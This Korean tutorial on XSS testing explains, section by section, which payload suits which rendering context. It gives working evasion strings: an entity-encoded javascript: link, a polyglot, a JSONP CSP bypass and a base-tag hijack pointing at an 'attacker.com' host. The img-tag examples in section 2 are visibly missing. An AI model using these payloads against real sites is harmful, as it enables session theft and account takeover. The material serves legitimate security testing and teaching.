

앞선 [[웹 취약점 진단 기법 입문 — XXE, SSRF부터 SQLi, XSS까지]]의 4절(XSS)에서는 Reflected, Stored, DOM 기반의 3대 유형과 속성 탈출형 이벤트 핸들러 예시(`">`)를 다른 취약점들과 함께 입문 수준의 개괄로 소개했습니다. 이번 글은 그에 대한 심층 후속 편으로, 이론적인 분류 설명을 넘어 실제 진단 현장에서 개별 XSS 페이로드를 어떻게 선택하고 해석하는지에만 온전히 집중합니다. 진단자가 특정 페이로드를 집어 드는 필터링 및 싱크 조건(언제 쓰는가), 입력값이 안착하는 브라우저 렌더링 위치(어디에 쓰는가), 페이로드 성공을 통해 고객과 개발팀에 전달해야 하는 증명 가치(목적이 뭔가), 그리고 왜 다른 위치가 아닌 오직 그 상황에서만 통하는지 기계적 이유(왜 그 상황에만 통하는가)를 대표적인 페이로드 패밀리별로 명확히 분석합니다.

---

## 1. `<script>alert(1)</script>` — 기본 원시 HTML 직접 삽입 검증

**쉽게 말하면**: 같은 단어라도 신문 기사 본문에 활자로 인쇄되는 것과 메모장 구석에 낙서로 남는 것이 다르듯, 서버가 태그 사이에 아무런 가공 없이 글자를 그대로 내려보낼 때만 `<script>`가 온전한 실행 명령어로 동작합니다.

- **언제 쓰는가**: 파라미터 입력값이 서버에 의해 필터링이나 인코딩 없이 원시 HTML 본문에 직접 출력되는지 가장 기본적이고 빠른 방법으로 점검할 때 사용합니다.
- **어디에 쓰는가**: 서버 사이드에서 완성되어 내려오는 원시 HTML 본문 컨텍스트(Raw HTML Body Sink, 예: `<div>사용자입력</div>`, `<p>사용자입력</p>`). 클라이언트 사이드 `innerHTML`을 거치지 않는 전통적인 서버 사이드 렌더링 환경입니다.
- **목적이 뭔가**: 대상 파라미터에 HTML 메타문자 치환이나 살균(Sanitization) 처리가 일절 존재하지 않음을 최소한의 비용으로 증명(PoC)합니다.
- **왜 그 상황에만 통하는가**: 브라우저의 HTML 파서가 문서를 상단부터 순차적으로 파싱할 때 새로운 `<script>` 태그를 만나면 동기적으로 자바스크립트 엔진을 구동해 코드를 실행합니다. 반면, 렌더링이 완료된 뒤 자바스크립트의 `element.innerHTML` API를 통해 동적으로 주입된 `<script>` 태그는 HTML5 보안 명세에 따라 실행 차단 플래그가 설정되어 동작하지 않으므로, 이 기본 페이로드는 순수 원시 HTML 렌더링 싱크에서만 유효합니다.

**원리**: 웹 브라우저는 초기 응답 스트림을 수신하며 토큰을 파싱할 때 `<script>` 태그를 감지하면 파싱을 일시 중단하고 스크립트 실행 컨텍스트를 생성합니다. 따라서 서버 응답에 입력값이 그대로 반영되는 경우 즉시 실행됩니다.

```html
<!-- 서버 사이드 템플릿 렌더링 결과 -->
<div class="content">
    <script>alert(1)</script>
</div>
```

- 체크 포인트: 서버 응답 본문에서 `<`와 `>`가 `&lt;` 및 `&gt;`로 변환되지 않고 태그 구조를 그대로 유지하는지 검증합니다.
- 참고: [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting), [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

## 2. `` 및 `<svg onload=alert(1)>` — innerHTML 및 DOM 싱크 이벤트 핸들러

**쉽게 말하면**: 출입구 경비원이 특정 제복(script 태그)을 입은 인원은 입장 불가라고 막아설 때, 일반 방문객 복장(img/svg 태그)으로 들어와 내부 행사 도중 비상벨(이벤트 핸들러)을 누르는 전략입니다.

- **언제 쓰는가**: 대상 웹 애플리케이션이 클라이언트 사이드 자바스크립트(`innerHTML`, `outerHTML` 등)를 통해 동적으로 화면을 갱신하거나, 입력 필터가 `<script>` 태그를 차단하고 있을 때 사용합니다.
- **어디에 쓰는가**: DOM 조작 싱크(`element.innerHTML`, `document.write`) 또는 원시 HTML 본문 컨텍스트.
- **목적이 뭔가**: 브라우저 사양에 의해 `<script>` 태그가 무력화되는 `innerHTML` 환경에서도 이벤트 핸들러를 트리거하여 자바스크립트 실행이 여전히 유효함을 증명합니다.
- **왜 그 상황에만 통하는가**: HTML5 명세는 `innerHTML`로 삽입된 `<script>` 요소의 실행을 차단하지만, ``나 `<svg>` 같은 미디어/그래픽 요소의 리소스 로딩 라이프사이클은 정상적으로 처리합니다. 존재하지 않는 리소스(`src=x`)를 요청하여 즉각 실패를 유도하는 `onerror`나 SVG 파싱 완료 직후 발화하는 `onload` 핸들러는 DOM 트리에 삽입되는 즉시 동기적으로 실행되기 때문입니다.

**원리**: 브라우저는 `innerHTML`에 대입된 HTML 문자열을 파싱하여 DOM 노드로 변환합니다. 이 과정에서 `` 태그가 생성되면 브라우저는 즉시 `src` 속성의 주소로 네트워크 요청을 시도하며, 잘못된 주소로 인해 오류가 발생하자마자 인라인에 정의된 `onerror` 콜백을 호출합니다.

```javascript
// 클라이언트 측 취약한 DOM 업데이트 로직
const searchKeyword = "";
document.getElementById("result-container").innerHTML = searchKeyword;
// 1. img 태그 DOM 노드 생성
// 2. src="x" 로드 시도 후 404/실패 발생
// 3. onerror 핸들러에 바인딩된 alert(1) 즉시 실행
```

- 체크 포인트: 개발자 도구 요소(Elements) 탭에서 태그가 DOM에 반영되었는지 확인하고, 네트워크 탭에서 무효 리소스 요청 후 콘솔에 이벤트가 발화하는지 점검합니다.
- 참고: [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting), [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

---

## 3. `"><svg onload=alert(1)>` — HTML 속성값(Attribute) 컨텍스트 탈출

**쉽게 말하면**: 공문서의 신청자 성명 기입 칸에 이름만 적지 않고 `홍길동" 뒤에 새로운 신청 항목 생성>`처럼 칸막이 따옴표를 닫아버리고 별도의 새로운 양식 항목을 강제로 덧붙이는 상황입니다.

- **언제 쓰는가**: 입력값이 HTML 태그 사이의 텍스트가 아니라, 태그 내부의 속성값(예: `<input value="사용자입력">`, `<meta content="사용자입력">`)으로 전달될 때 사용합니다.
- **어디에 쓰는가**: 따옴표(`"` 또는 `'`)로 감싸인 HTML 속성값 내부 싱크.
- **목적이 뭔가**: 사용자 입력값이 단순 데이터 속성 문자열로 격리되지 않고, 속성 및 부모 태그 경계를 완전히 탈출(Breakout)하여 독립적인 실행 태그를 주입할 수 있음을 보고서에 증명합니다.
- **왜 그 상황에만 통하는가**: 브라우저의 HTML 속성 파서는 속성을 연 따옴표와 동일한 따옴표 문자를 만나면 그 즉시 해당 속성값의 파싱을 끝냅니다. 따옴표를 닫아주지 못하면 아무리 `<script>`나 `onload`를 적어도 무의미한 속성 문자열 데이터에 갇히지만, 따옴표(`"`)로 속성을 닫고 태그 닫기 문자(`>`)로 기존 요소를 조기 종료시킴으로써 파서를 일반 태그 파싱 모드로 되돌리기 때문에 동작합니다.

**원리**: 브라우저 토크나이저는 문맥에 따라 상태를 전환합니다. 속성값 상태(Attribute Value State)에 머물러 있는 동안에는 새로운 태그 시작 문자가 데이터로 취급될 수 있으나, 일치하는 닫는 따옴표와 닫는 꺾쇠괄호가 연이어 주입되면 토크나이저는 즉시 데이터 상태(Data State)로 복귀하여 뒤따르는 페이로드를 새로운 DOM 노드로 생성합니다.

```html
<!-- 서버 템플릿: <input type="text" name="search" value="INPUT"> -->
<!-- 페이로드 주입: "><svg onload=alert(1)> -->

<!-- 브라우저가 최종 해석한 DOM 형태 -->
<input type="text" name="search" value="">
<svg onload=alert(1)>
">
```

- 체크 포인트: 입력값 직전의 따옴표가 큰따옴표(`"`)인지 작은따옴표(`'`)인지 페이지 소스에서 확인하고, 따옴표와 `>` 문자가 HTML 엔티티로 치환되지 않고 유지되는지 확인합니다.
- 참고: [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

---

## 4. javascript:alert(1) — URL 속성 싱크 및 상호작용 기반 검증

**쉽게 말하면**: 편지 봉투에 적힌 수신자 주소는 가만히 있는 글자이지만, 스마트폰 주소록의 전화번호 칸에 적힌 값은 터치하는 순간 즉시 전화 발신 시스템을 가동시키는 것과 같습니다.

- **언제 쓰는가**: 입력값이 링크 대상이나 리소스 위치를 지정하는 URL 속성(예: `<a href="사용자입력">`, `<form action="사용자입력">`, `<iframe src="사용자입력">`)에 그대로 들어갈 때 사용합니다.
- **어디에 쓰는가**: 브라우저가 URL 스킴을 해석하는 하이퍼링크 및 액션 싱크(`href`, `src`, `action`, `window.location`).
- **목적이 뭔가**: 태그를 닫거나(`><`) 새로운 태그를 삽입할 권한이 없는 닫힌 URL 컨텍스트에서도, 링크 클릭 등의 사용자 상호작용 유도를 통해 임의의 자바스크립트 실행이 가능함을 입증합니다(피싱 및 악성 링크 연계 시나리오 증명).
- **왜 그 상황에만 통하는가**: 브라우저는 `href`나 `src` 같은 탐색(Navigation) 관련 속성에 `javascript:` 슈도 프로토콜(Pseudo-protocol)이 지정되면, 네트워크 자원을 가져오는 대신 콜론 뒤의 문자열을 현재 웹 문서 컨텍스트의 자바스크립트 엔진으로 넘겨 직접 평가합니다. 일반 텍스트나 일반 속성(class, title 등)에서는 브라우저의 URL 해석 엔진이 동작하지 않으므로 무의미합니다.

**원리**: 사용자가 `javascript:` 스킴이 포함된 앵커(`<a>`) 태그를 클릭하면, 브라우저의 내비게이션 알고리즘은 이를 외부 HTTP 요청이 아닌 인라인 코드 실행 요청으로 취급하여 현재 도메인의 권한으로 스크립트를 즉시 실행합니다.

```html
<!-- 취약한 사용자 프로필 링크 렌더링 예시 -->
<a href="javascript:alert(1)">내 웹사이트 방문</a>
```

- 체크 포인트: 대상 애플리케이션이 URL을 검증할 때 안전한 프로토콜 화이트리스트(`http://`, `https://`)를 강제하는지, 아니면 단순 상대 경로 허용 로직의 맹점으로 인해 `javascript:` 스킴이 통과되는지 확인합니다.
- 참고: [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting), [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

## 5. 속성 내 엔티티 인코딩 — 필터와 브라우저 파서의 비대칭성 검증

**쉽게 말하면**: 공항 보안 검색대(입력 필터)는 암호화된 기호를 단순 잡음으로 보고 통과시켰지만, 도착지 호텔 접수원(브라우저)은 암호를 완전히 해독해 원래 의미의 VIP 명령으로 처리하는 격입니다.

- **언제 쓰는가**: WAF나 서버 사이드 보안 필터가 `javascript:`, `alert`, `onerror` 같은 위험 키워드를 단순 정규식이나 블랙리스트 문자열 매칭으로 차단하고 있을 때 우회 가능성을 점검하기 위해 사용합니다.
- **어디에 쓰는가**: HTML 속성값 컨텍스트(HTML Attribute Context, 특히 `href` 속성 내부 또는 이벤트 핸들러 속성값 내부).
- **목적이 뭔가**: "서버가 입력을 검사하는 시점의 문자열 형태"와 "브라우저가 DOM을 구성하며 해석하는 형태" 사이에 존재하는 **파싱 시점의 비대칭성(Asymmetry)**을 공략하여, 블랙리스트 기반 방어의 구조적 한계를 입증합니다.
- **왜 그 상황에만 통하는가**: 브라우저는 HTML 속성 내부의 값을 파싱할 때 HTML 엔티티(16진수 `&#x...;` 또는 10진수 `&#...;`)를 먼저 디코딩하여 내부 버퍼에 올린 뒤, 사용자가 클릭하거나 이벤트가 발생할 때 비로소 자바스크립트 엔진에 전달합니다. 반면 서버 사이드 정규식 필터는 디코딩되지 않은 원시 문자열(`&`, `#`, `x` 등)만을 단순 매칭하므로 탐지를 우회하게 됩니다.

**원리**: 브라우저의 파싱 파이프라인은 다단계로 동작합니다. 속성값 내부에서는 HTML 디코딩이 선행된 후 스크립트 엔진으로 전달되므로, 필터가 원시 문자열만 검사하고 정규화(Canonicalization)하지 않는다면 반드시 우회가 발생합니다.



```html
<!-- href 속성 내에서 javascript:alert(1)을 16진수 HTML 엔티티로 난독화 -->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(1)">확인 링크</a>

<!-- 이벤트 핸들러 속성 내에서 따옴표를 HTML 엔티티(&quot;)로 우회 -->
<button onclick="confirm(&quot;XSS&quot;)">실행</button>
```

- 체크 포인트: WAF가 원시 텍스트 형태만 패턴 매칭하는지, 그리고 입력값이 안착하는 지점이 브라우저에 의해 자동 엔티티 디코딩이 일어나는 속성값 내부인지 점검합니다.
- 참고: [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html), [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

---

## 6. Polyglot 페이로드 — 다중 컨텍스트 동시 대응과 블라인드 진단

**쉽게 말하면**: 다국적 회의장에서 한국인, 미국인, 일본인이 각자 자기 언어로 이해할 수 있도록 여러 언어의 문법을 하나의 정교한 문장에 교묘히 얽어놓은 '만능 통역 문장'과 같습니다.

- **언제 쓰는가**: 소스 코드를 확인할 수 없는 블랙박스 모의해킹이나, 입력값이 정확히 HTML 본문, 속성값, 자바스크립트 변수, 주석 중 어디에 반영되는지 사전에 파악하기 어려운 블라인드 진단 환경에서 탐침용으로 사용합니다.
- **어디에 쓰는가**: 다중 복합 싱크(HTML 본문, 따옴표 속성값, 스크립트 블록 내부, HTML 주석 등).
- **목적이 뭔가**: 단 한 번의 요청으로 다양한 잠재적 싱크의 탈출 가능성과 필터링 결함을 동시에 탐지하여 진단 누락을 방지하고 사각지대를 조기에 발견합니다.
- **왜 그 상황에만 통하는가**: 폴리글랏(Polyglot) 문자열은 주석 닫기(`-->`), 따옴표 닫기(`"`, `'`), 태그 닫기(`>`), 스크립트 실행 블록, 그리고 문법 오류를 막기 위한 인라인 주석 기호(`//`)를 하나의 문맥 독립적 체계로 정교하게 결합해 둡니다. 따라서 파서가 어떤 상태(HTML 속성, 태그 사이, JS 문자열)에서 입력을 읽기 시작하더라도 문법 오류(SyntaxError)로 중단되지 않고 유효한 자바스크립트 실행 블록으로 도달하기 때문입니다.

**원리**: 입력값이 들어가는 컨텍스트마다 파서를 탈출하는 데 필요한 기호가 다릅니다. 폴리글랏은 모든 기호를 순차적으로 나열하면서도, 실행되지 않는 부분은 주석(`/* */`, `//`)이나 안전한 연산자로 감싸서 브라우저가 어느 위치에서 해석하든 문법 에러 없이 스크립트를 실행하도록 설계됩니다.

```html
<!-- 대표적인 콤팩트 XSS Polyglot 예시 -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert(1) )//%0D%0A%0d%0a//</title/style/textarea>~/-->></xmp><svg/onload=+/*/`/*\`/*'/*"/**/alert(1)//>
```

- 체크 포인트: 여러 파라미터에 투입 후 브라우저 콘솔에서 자바스크립트 문법 오류가 발생하는지 확인하고, 성공 시 DOM 인스펙터로 어느 컨텍스트가 실제로 깨졌는지 역추적합니다.
- 참고: [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection), [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

---

## 7. CSP(Content-Security-Policy) 우회 — 정책 설계 결함 및 신뢰 도메인 악용

**쉽게 말하면**: 건물 현관에 사설 경비원(CSP)을 배치해 외부 잡상인을 철저히 차단했으나, 회사 출입증을 가진 정규 협력업체 직원(허용 목록에 포함된 CDN/도메인)의 가방 속에 몰래 위험 물품을 담아 들여보내는 셈입니다.

- **언제 쓰는가**: 애플리케이션에 XSS 취약점(인라인 스크립트 주입 등)이 분명히 존재하지만, 서버가 응답 헤더로 `Content-Security-Policy`를 설정하여 인라인 스크립트 실행을 차단하고 있을 때 우회 가능성을 진단하기 위해 사용합니다.
- **어디에 쓰는가**: CSP 보호 헤더가 활성화된 원시 HTML 또는 DOM 싱크 환경.
- **목적이 뭔가**: "CSP 헤더만 켜두면 모든 XSS가 완벽히 차단된다"는 보안상의 맹신을 깨고, 과도하게 넓은 도메인 화이트리스트나 누락된 지시자 같은 **정책 설계 결함(Policy Design Gap)**이 존재하면 스크립트 실행이 여전히 관통될 수 있음을 증명합니다.
- **왜 그 상황에만 통하는가**: CSP 우회는 브라우저 자체의 취약점이 아니라 관리자가 작성한 정책의 논리적 허점에서만 성립합니다. 예를 들어 `script-src` 화이트리스트에 JSONP 엔드포인트를 제공하는 유명 도메인이 등록되어 있거나, `base-uri` 지시자가 빠져 있어 공격자가 상대 경로 스크립트의 기준 주소를 바꿀 수 있는 환경에서만 동작합니다.

**원리**: CSP가 `unsafe-inline`을 금지하더라도 화이트리스트 기반(`script-src https://trusted-cdn.com`)으로 설정된 경우, 브라우저는 허용된 도메인에서 내려오는 스크립트 리소스를 무조건 신뢰합니다. 공격자는 허용 도메인 내의 JSONP 콜백 파라미터나 호스팅된 라이브러리의 취약점을 악용하여 임의 코드를 적법한 스크립트로 둔갑시킵니다.

```html
<!-- 시나리오 1: 화이트리스트에 등록된 신뢰 도메인의 JSONP 취약점 악용 -->
<script src="https://trusted-cdn.com/api/jsonp?callback=alert(1)"></script>

<!-- 시나리오 2: base-uri 지시자 누락 시 상대 경로 가로채기 -->
<base href="https://attacker.com/">
<!-- 이후 페이지 하단에 선언된 <script src="/js/main.js"></script>는 공격자 서버의 악성 js를 로드함 -->
```

- 체크 포인트: CSP 헤더에 `unsafe-inline`, `unsafe-eval` 설정이 남아 있는지, `script-src`에 등록된 도메인이 오픈 리다이렉트나 JSONP를 제공하는지, `base-uri`와 `object-src`가 누락되지 않았는지 점검합니다.
- 참고: [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

---

## 8. 클라이언트 템플릿 인젝션(CSTI) — 프레임워크 표현식 기반 실행

**쉽게 말하면**: 일반 문서를 읽는 직원에게 건네면 평범한 글자 취급을 받지만, 자동 계산 수식을 처리하는 엑셀 매크로 담당자(템플릿 엔진)에게 건네면 즉시 연산 함수로 해석되어 실행되는 것과 같습니다.

- **언제 쓰는가**: 서버가 `<`와 `>`를 철저하게 HTML 엔티티(`&lt;`, `&gt;`)로 인코딩하여 일반적인 HTML 태그 주입이 불가능하지만, 브라우저 단에서 AngularJS, Vue 등의 프론트엔드 프레임워크가 활성화되어 있을 때 사용합니다.
- **어디에 쓰는가**: 프론트엔드 프레임워크가 감시하고 컴파일하는 DOM 템플릿 영역(예: `ng-app` 범위 내부).
- **목적이 뭔가**: 서버 사이드의 HTML 인코딩만으로는 클라이언트 사이드 템플릿 엔진의 표현식 평가를 막을 수 없으며, 현대 웹 아키텍처에서 신뢰 경계(Trust Boundary)가 프론트엔드 컴파일러 레벨로 확장되었음을 입증합니다.
- **왜 그 상황에만 통하는가**: AngularJS 같은 프레임워크는 더블 중괄호(`{{ ... }}`)를 감지하면 내부 문자열을 스코프 표현식으로 평가합니다. 템플릿 인터프리터 내부에서 자바스크립트 프로토타입 체인에 접근하는 구문(`constructor.constructor(...)()`)을 주입하면 최상위 함수 생성기(`Function`)를 직접 호출할 수 있어 HTML 메타문자 없이도 순수 스크립트 실행이 성립합니다.

**원리**: 브라우저는 서버가 인코딩한 `{{ ... }}` 문자를 화면에 안전한 텍스트로 렌더링하지만, 이후 구동되는 프레임워크의 부트스트랩 컴파일러가 해당 DOM 텍스트를 템플릿 구문으로 인식하고 파싱하여 내부 인터프리터에서 동적으로 코드를 실행합니다.

```html
<!-- 서버는 HTML 특수문자를 완벽히 인코딩하여 출력함 -->
<div ng-app>
    <p>검색 결과: {{constructor.constructor('alert(1)')()}}</p>
</div>
<!-- AngularJS 컴파일러가 DOM을 읽는 순간 생성자 함수를 통해 alert(1) 실행 -->
```

- 체크 포인트: 클라이언트 페이지에 `ng-app`, `data-v-` 등 프레임워크 지시자가 존재하는지 확인하고, 먼저 `{{7*7}}`을 전송하여 응답에 `49`가 계산되어 노출되는지 여부로 취약점을 판별합니다.
- 참고: [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection), [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

---

## 정리

| 페이로드 유형 | 쓰는 상황(언제/어디) | 목적 | 왜 그 상황에만 통하는가 |
|---|---|---|---|
| `<script>alert(1)</script>` | 서버 사이드 직접 렌더링 / 원시 HTML 본문 태그 사이 | 필터링 및 HTML 살균 부재를 최소 비용으로 증명 | 브라우저 초기 파싱 시에만 동기 실행되며 innerHTML 주입 시에는 HTML5 명세에 의해 차단됨 |
| ``, `<svg onload=...>` | 클라이언트 DOM 조작(`innerHTML`) 또는 `<script>` 차단 시 / HTML 본문 | innerHTML 환경의 스크립트 실행 제한 우회 입증 | 미디어/그래픽 요소의 리소스 로드 실패 및 렌더링 이벤트는 DOM 주입 즉시 발화함 |
| `"><svg onload=...>`, `'><script>...` | 입력값이 속성값 내부로 들어갈 때 / HTML 속성값 컨텍스트 | 속성 경계와 부모 태그를 탈출하여 독립 실행 태그 삽입 | 닫는 따옴표와 닫는 꺾쇠가 파서를 속성값 파싱 상태에서 일반 데이터 파싱 상태로 강제 전환함 |
| `javascript:alert(1)` | 링크 및 리소스 주소 입력부 / URL 속성 싱크(`href`, `src`, `action`) | 닫힌 URL 컨텍스트에서 사용자 클릭 유도 기반 실행 입증 | 브라우저 내비게이션 엔진이 `javascript:` 슈도 프로토콜을 인라인 코드 실행으로 해석함 |
| 속성 내 엔티티 인코딩 | WAF/필터가 단순 문자열 매칭할 때 / HTML 속성값 컨텍스트 | 필터 검사 시점과 브라우저 해석 시점의 비대칭성 공략 | 브라우저 속성 파서는 엔티티를 먼저 디코딩한 뒤 JS 엔진에 전달하므로 단순 문자열 필터를 우회함 |
| Polyglot 페이로드 | 진단 컨텍스트를 모르는 블랙박스·블라인드 환경 / 다중 복합 싱크 | 단일 페이로드로 다중 잠재적 싱크의 취약점 동시 탐지 | 주석, 따옴표, 괄호가 문법적으로 정교하게 맞물려 어느 위치에서 파싱되든 문법 에러 없이 실행 경로를 유지함 |
| CSP 우회 페이로드 | CSP로 인라인 스크립트가 차단된 환경 / CSP 적용 HTML·DOM 싱크 | 화이트리스트 결함 및 지시자 누락 등 정책 설계 결함 증명 | 브라우저 결함이 아닌 관리자가 신뢰 도메인(JSONP 등)이나 base-uri를 잘못 정의했을 때만 성립함 |
| CSTI 페이로드 | 서버는 HTML 엔티티 인코딩을 적용했으나 프론트 템플릿이 활성화된 환경 / 템플릿 바인딩 DOM | 프론트엔드 프레임워크 레벨의 코드 실행 신뢰 경계 증명 | 프레임워크 템플릿 파서가 `{{ ... }}` 구문을 코드로 인식하여 프로토타입 체인(`Function`)을 직접 실행함 |

XSS 진단은 무작위로 페이로드를 복사해 붙여넣는 작업이 아니라, 입력값이 들어가는 브라우저의 파싱 컨텍스트와 방어 메커니즘을 파악하고 그에 맞는 정밀한 증명 도구를 선택하는 과정입니다. 더 많은 컨텍스트별 페이로드와 심화 방어 기법은 [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)과 [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)를 참고하시기 바랍니다.
